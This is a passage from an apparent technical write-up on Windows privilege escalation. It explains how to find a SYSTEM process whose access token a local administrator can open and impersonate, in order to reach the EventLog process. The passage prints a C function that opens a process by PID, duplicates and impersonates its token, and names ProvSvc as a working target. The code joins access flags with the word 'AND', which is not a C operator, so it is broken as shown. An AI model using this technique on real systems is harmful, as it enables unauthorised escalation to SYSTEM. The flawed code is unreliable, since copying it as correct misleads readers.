 We can see we have only Query rights as administrator for the token, so we have to first find a token that is running as system in order to steal the token of the EventLog process.

In order to steal a system token we first have to find a process that is running as system. Furthermore the DACL of this process needs to allow an local administrator to access the process with *PROCESS_QUERY_LIMITED_INFORMATION* that we do not have to enable the *SeDebugPrivilege*. The next step is that the process token needs to have a DACL that allows local Administrators to open the process token with *TOKEN_QUERY AND TOKEN_ASSIGN_PRIMARY AND TOKEN_DUPLICATE* access rights.

So lets search a process that meets this requirements.

We can go through a list of all process ids and check if this function succeeds and afterwards we can check which processes are running as system.

```c
HANDLE ImpersonateTokenofPID(DWORD dwPID) {
	
	DWORD dwSuccess = FAIL;
	BOOL bSuccess = FALSE;
	
	HANDLE hProcess = NULL;

	HANDLE hToken = NULL;
	hProcess = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, dwPID);
	if (hProcess == NULL) {
		goto exit;
	}

	dwSuccess = OpenProcessToken(hProcess, TOKEN_QUERY AND TOKEN_ASSIGN_PRIMARY AND TOKEN_DUPLICATE, &hToken);
	if (dwSuccess == FAIL) {
		printf("[-] Could not open process token of PID: %d\n", dwPID);
		goto exit;
	}
	bSuccess = ImpersonateLoggedOnUser(hToken);
	if (bSuccess == FAIL) {
		printf("[-] Could not impersonate Token of the PID: %d\n", dwPID);
		goto exit;
	}else{
        RevertToSelf();
    }

exit:

	return hToken;
}
```

After a bit digging at the outcome I could find the ProvSvc, that runs as system and a administrator is able to impersonate the access token.
